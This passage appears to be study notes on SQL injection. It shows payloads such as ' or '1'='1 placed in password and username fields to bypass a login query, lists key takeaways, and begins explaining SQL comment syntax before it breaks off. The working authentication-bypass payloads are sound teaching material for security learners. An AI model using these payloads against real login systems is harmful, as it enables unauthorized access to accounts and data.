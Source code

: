 Result: Login successful.
### Step 3: Auth Bypass without Known Username

If username is unknown:  
Inject in password field:

Payload:

```sql
something' or '1'='1
```

Query becomes:

```sql
SELECT * FROM logins WHERE username='notAdmin' OR '1'='1' AND password='something' OR '1'='1';
```

OR inject both fields:

```sql
username = '' or '1'='1
password = 'anything' or '1'='1
```

Result: Bypasses authentication by evaluating WHERE clause to true.
### Key Takeaways

- Exploits logical flaws in SQL statement evaluation    
- Common payload: `' or '1'='1`
- Works due to OR operator precedence
- Can bypass auth with or without valid usernames
- Comments and quote balancing can assist in injection success

> Refer to PayloadAllTheThings repo for more variations of auth bypass payloads.
# Using Comments in SQLi

### Purpose

To understand how to leverage SQL comments to manipulate query logic for SQL injection attacks, particularly authentication bypass scenarios.
### SQL Comments Syntax

- Line Comments:    
    - `--` (double dash followed by a space)
    - `#` (hash symbol)
- Inline Comment:
    - `/* comment */` (not commonly used in SQLi)

> Note: `--` must be followed by a space or it won’t be recognized as a comment.

Examples:

```sql
-- This is a comment
# This is also a comment
```
### Commenting Out Part of the Query
